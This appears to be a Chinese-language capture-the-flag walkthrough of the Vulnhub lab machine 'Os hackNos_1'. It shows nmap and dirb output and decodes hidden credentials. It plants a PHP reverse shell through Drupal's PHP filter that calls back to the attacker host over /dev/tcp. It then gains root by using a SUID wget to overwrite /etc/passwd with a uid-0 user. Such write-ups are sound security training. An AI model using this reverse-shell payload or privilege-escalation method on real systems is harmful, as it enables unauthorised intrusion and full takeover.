 ```yaml
---
layout: post
title: "Os hackNos_1 walkthrough"
date: 2021-06-27
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP               |
| ------------- | ---------------- |
| 本机（Win10） | `192.168.36.234` |
| Kali          | `192.168.36.89`  |
| OS-hackNos-1  | `192.168.36.161` |

### 扫描端口和版本信息

`nmap -A 192.168.36.161`

```shell
┌──(root💀kali)-[~]
└─# nmap -A 192.168.36.161
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 12:00 UTC
Nmap scan report for 192.168.36.161
Host is up (0.014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 a5:a5:17:70:4d:be:48:ad:ba:64:c1:07:a0:55:03:ea (RSA)
|   256 f2:ce:42:1c:04:b8:99:53:95:42:ab:89:22:66:9e:db (ECDSA)
|_  256 4a:7d:15:65:83:af:82:a3:12:02:21:1c:23:49:fb:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: A8:66:7F:1B:19:D8 (Apple)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

输出结果中规中矩，开启**80**和**22**端口。下一步进行目录枚举

### 枚举目录

```shell
┌──(root💀kali)-[~]
└─# dirb http://192.168.36.161
...
---- Scanning URL: http://192.168.36.161/ ----
==> DIRECTORY: http://192.168.36.161/drupal/
+ http://192.168.36.161/index.html (CODE:200|SIZE:11321)
+ http://192.168.36.161/server-status (CODE:403|SIZE:279)

---- Entering directory: http://192.168.36.161/drupal/ ----
==> DIRECTORY: http://192.168.36.161/drupal/includes/
+ http://192.168.36.161/drupal/index.php (CODE:200|SIZE:9253)
==> DIRECTORY: http://192.168.36.161/drupal/misc/
==> DIRECTORY: http://192.168.36.161/drupal/modules/
==> DIRECTORY: http://192.168.36.161/drupal/profiles/
+ http://192.168.36.161/drupal/robots.txt (CODE:200|SIZE:2189)
==> DIRECTORY: http://192.168.36.161/drupal/scripts/
==> DIRECTORY: http://192.168.36.161/drupal/sites/
==> DIRECTORY: http://192.168.36.161/drupal/themes/
+ http://192.168.36.161/drupal/web.config (CODE:200|SIZE:2200)
+ http://192.168.36.161/drupal/xmlrpc.php (CODE:200|SIZE:42)
```

根据结果可知该网站使用的是Drupal CMS，并且只能确定主版本号是**7**，后续根据版本号找漏洞就比较麻烦，不过在*searchsploit*搜索结果中，该版本的漏洞挺多的，挨个进行测试就比较费时，因此将操作做为备用计划。

> 后来复盘时发现可以在该*http://192.168.36.161/drupal/CHANGELOG.txt*文件中找到具体版本号

经过一些尝试后发现在根目录中存在一个*alexander.txt*文本文件，内容是

```
KysrKysgKysrKysgWy0+KysgKysrKysgKysrPF0gPisrKysgKysuLS0gLS0tLS0gLS0uPCsgKytbLT4gKysrPF0gPisrKy4KLS0tLS0gLS0tLjwgKysrWy0gPisrKzwgXT4rKysgKysuPCsgKysrKysgK1stPi0gLS0tLS0gLTxdPi0gLS0tLS0gLS0uPCsKKytbLT4gKysrPF0gPisrKysgKy48KysgKysrWy0gPisrKysgKzxdPi4gKysuKysgKysrKysgKy4tLS0gLS0tLjwgKysrWy0KPisrKzwgXT4rKysgKy48KysgKysrKysgWy0+LS0gLS0tLS0gPF0+LS4gPCsrK1sgLT4tLS0gPF0+LS0gLS4rLi0gLS0tLisKKysuPA==
```

将内容进行Base64、[brainfack](https://www.dcode.fr/brainfuck-language
)解密，得到一个账户名和密码信息：`james:Hacker@4514`

### 访问Web并登录

使用得到的账户和密码进行登录，接下来就是Drupal GetShell常用操作：启用**PHP filter**模块-> 新建一个PHP code格式的**Article**页面。在内容中写一个反向shell

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.36.89/5566 0>&1'");?>
```

### GetShell

```shell
┌──(root💀kali)-[~]
└─# nc -lvp 5566
listening on [any] 5566 ...
192.168.36.161: inverse host lookup failed: Unknown host
connect to [192.168.36.89] from (UNKNOWN) [192.168.36.161] 46488
bash: cannot set terminal process group (1171): Inappropriate ioctl for device
bash: no job control in this shell
www-data@hackNos:/var/www/html/drupal$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

在*james*用户目录下找到第一个flag

```shell
www-data@hackNos:/home/james$ cat user.txt
cat user.txt
   _
  | |
 / __) ______  _   _  ___   ___  _ __
 \__ \|______|| | | |/ __| / _ \| '__|
 (   /        | |_| |\__ \|  __/| |
  |_|          \__,_||___/ \___||_|



MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b
```

但尝试切换到*james*账户不成功，并且也没有发现有其他用户

### 提权

在提权步骤中，常见操作是找SUID文件，具体操作为`find / -type f -perm -u=s 2>/dev/null`，在结果中发现**/usr/bin/wget**具备SUID权限

```shell
www-data@hackNos:/home/james$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/i386-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/pkexec
/usr/bin/at
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/newuidmap
/usr/bin/wget
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/bin/ping6
/bin/umount
/bin/ntfs-3g
/bin/mount
/bin/ping
/bin/su
/bin/fusermount
```

接下来的具体操作可以参考[这篇文章](https://www.hackingarticles.in/linux-for-pentester-wget-privilege-escalation/)：

1. 使用*openssl*新建用户和密码

   `openssl passwd -1 -salt 2hanx passwd`

2. 将生成的账户信息附加在*passwd*文本文件中

   `hacker:$1$2hanx$yGPOMAbu/gZJ8reFaXSMo/:0:0:,,,/root:/bin/bash`

3. 靶机通过*/usr/bin/wget*命令将更改后的*passwd*文件保存替换原*/etc/passwd*文件，这样靶机系统中就存在新的用户

4. 切换到新用户*hacker:passwd*

5. 提权到*root* shell，查看最后一个flag即可

   ```shell
   root@hackNos:/root# cat root.txt
   cat root.txt
       _  _                              _
     _| || |_                           | |
    |_  __  _|______  _ __  ___    ___  | |_
     _| || |_|______|| '__|/ _ \  / _ \ | __|
    |_  __  _|       | |  | (_) || (_) || |_
      |_||_|         |_|   \___/  \___/  \__|
   
   
   
   MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b
   
   Author : Rahul Gehlaut
   
   Linkedin : https://www.linkedin.com/in/rahulgehlaut/
   
   Blog : www.hackNos.com
   ```

### 总结

在确定Drupal版本后根据*searchsploit*结果，可以尝试使用`Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)`，该PoC前置条件需要先进行账户登录。